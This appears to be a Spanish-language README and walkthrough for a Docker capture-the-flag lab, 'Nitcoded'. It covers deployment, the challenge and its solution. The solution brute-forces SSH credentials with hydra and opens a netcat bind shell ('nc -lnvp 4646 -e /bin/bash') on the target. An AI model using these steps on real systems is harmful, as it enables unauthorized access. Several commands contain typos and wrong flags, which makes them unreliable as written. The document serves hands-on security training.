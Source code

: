 # Nitcoded

- [1. Descripción](#1.-descripción)
- [2. Instalación y despliegue](#2.-instalación-y-despliegue)
- [2.1. Despliegue manual](#2.1.-despliegue-manual)
- [2.2. Despliegue atomático](#2.2.-despliegue-atomático)
- [3. Descripción del laboratorio](#3.-descripción-del-laboratorio)
- [4. Resolución del laboratorio](#4.-resolución-del-laboratorio)
- [4.1. Cracking de credenciales](#4.1.-cracking-de-credenciales)
- [4.2. Sesión interactiva](#4.2.-sesión-interactiva)
- [4.3. Configuración del servidor HTTP](#4.3.-configuración-del-servidor-http)
- [4.4. Recepción de archivos](#4.4.-recepción-de-archivos)
- [4.5. Obtención de la flag](#4.5.-obtención-de-la-flag)

## 1. Descripción

Esta laboratorio es una simulación de un entorno cliente-servidor, en el cual se profundizará en la configuración de servidores HTTP y automatización de tareas. Utiliza Docker para simular dos servidores, cada uno con configuraciones específicas destinadas a desafiar al usuario a utilizar una variedad de herramientas y técnicas de administración.

## 2. Instalación y despliegue

Antes de iniciar el laboratorio, asegúrate de tener Docker instalado en tu sistema. Si no tienes Docker, puedes instalar siguiendo las instrucciones en el sitio oficial de Docker para [Windows](https://docs.docker.com/docker-for-windows/install/), [Mac](https://docs.docker.com/docker-for-mac/install/) o [Linux](https://docs.docker.com/engine/install/).
Para el despliegue, tanto manual como automático, será neceasrio crear una red en Docker de tipo _bridge_:

```bash
docker network create nitcoded
```

## 2.1. Despliegue manual

Para desplegar manualmente el laboratorio, deberás clonar este repositorio y ejecutar los siguientes comandos Docker para su lanzamiento:

```bash
git clone https://github.com/kradbyte/elementals-labs.git
docker build -f kradbyte/nitcoded:server -f Dockerfile.server elementals-labs/7-Nitcoded 
docker build -f kradbyte/nitcoded:client -f Dockerfile.client elementals-labs/7-Nitcoded
docker run -d --name nitcoded-server --network nitcoded -p [ServerPort]:22 -p [ServerPort]:4646
docker run -d --name nitcoded-client --network nitcoded kradbyte/nitcoded:client
```

No olvides cambiar los `ServerPort` por los puertos que se expondrán para los servicios SSH y el puerto libre para otro servicio detallado más adelante.

## 2.2. Despliegue atomático

Para desplegar el laboratorio atomáticamente bastará con ejecutar los siguientes comandos:

```bash
docker run -d --name nitcoded-server --network nitcoded -p [ServerPort]:22 -p [ServerPort]:4646
docker run -d --name nitcoded-client --network nitcoded kradbyte/nitcoded:client
```

No olvides cambiar los `ServerPort` por los puertos que se expondrán para los servicios SSH y el puerto libre para otro servicio detallado más adelante.

> **Nota**: No se recomienda cambiar el nombre de los contenedores, ya que hay configuraciones internas que funcionan con la resolución de los DNS de los contenedores, por lo que solo es posible cambiar el nombre de los contenedores si cambiamos las configuraciones también.

## 3. Descripción del laboratorio

**Description**
Pato va a enviar cerca de 100 archivos al servidor por HTTP, así que debes ingresar al servidor con el rol administrador y preparar todo para que Pato pueda enviar sus archivos.

**Target**
Configura un servidor HTTP.

**Steps**
- Ingresa al servidor
- Configura el servidor HTTP.
- Espera y gestiona los archivos recibidos.
- Descifra la flag en los archivos recibidos.

**Grants**
- La flag se encuentra segmentada en todos los archivos que envía Pato, deberás buscar la diferencia entre todos para encontrar la flag.
- Para el servidor HTTP no es necesario colocarle contraseña, dado que Pato hace un curl sin contraseña, que si bien no es seguro es más práctico por ser una red interna.
- El puerto 4646 está expuesto para cualquier uso.

## 4. Resolución del laboratorio

### 4.1. Cracking de credenciales

Primero deberemos crackear las credenciales de la SSH para acceder al servidor. La descripción nos proporciona información acerca de que nuestro rol es de administrador, por lo que podremos ingresar como _admin_, por lo que ahora deberemos buscar la contraseña con herramientas como _hydra_. Como diccionario podremos utilizar algún diccionario de [SecList](https://github.com/danielmiessler/SecLists/blob/master/Passwords/500-worst-passwords.txt).

```bash
hydra -L admmin -p /ruta/a/tu/diccionario.txt ssh://ServerIP:ServerPort
```

No olvides cambiar `ServerIP` y `ServerPort` por la IP del servidor y el puerto por el que corre la SSH (en caso de haber configurado SSH en un puerto distinto al 22).

### 4.2. Sesión interactiva

Cuando hayamos descubierto la contraseña e intentemos hacer la conexión al servidor por SSH, la sesión se cerrará y nos impedirá obtener la consola interactiva, sin embargo, podremos ejecutar comandos por SSH. Para poder obtener la consola interactiva podremos configurar una _bind shell_ instalando Netcat primero:

```bash
ssh admin@ServerIP sudo apt-get install -y netcat-traditional
```

No olvides reemplazar `ServerIP` por la IP del servidor.
Una vez hayamos instalado NetCat podremos ponernos en escucha por el puerto 4646 que estaba libre en el despliegue del contenedor:

```bash
ssh admin@ServerIP nc -lnvp 4646 -e /bin/bash
```

En nuestra máquina deberemos abrir otra terminal y conectarnos por Netcat:

```bash
nc ServerIP 4646
```

Otra forma en que podremos ganar la consola interactiva será ejecutando lo siguiente:

```bash
ssh admin@SererIP exec bash -i
```

### 4.3. Configuración del servidor HTTP

Para configurar el servidor HTTP podrías, incluso, levantarlo con Python:

```bash
python3 -m http.server
```

Sin embargo, nuestro servidor debe tener capacidades POST/PUT, dado que el cliente enviará archivos al servidor, por lo que podremos buscar alguna alternativa como un script en Python que acepte POST/PUT. Recuerda que HTTP se monta en el puerto 80.

### 4.4. Recepción de archivos

Cuando hayamos configurado el servidor correctamente, el cliente comenzará a enviar los archivos en lotes de 10 cada 3 minutos, por lo que podremos buscar una forma de gestionar estas recepciones, dado que para recibir todos los archivos tardará cerca de 30 minutos.
Se sugiere implementar un script en bash que guarde los arhivos en alguna ubicación y vaya renombrando los archivos recibidos, junto con una tarea cron para que el proceso se realice automáticamente.

### 4.5. Obtención de la flag

Una vez hayamos obtenido todos los archivos (90 en total) deberemos realizar la lectura de cada uno, ya que al descrifrarlos encontraremos un caracter diferente en cada archivo que deberás compilar para obtener una frase encriptada en base64 que contendrá la flag. Esto también se puede automatizar con un script.
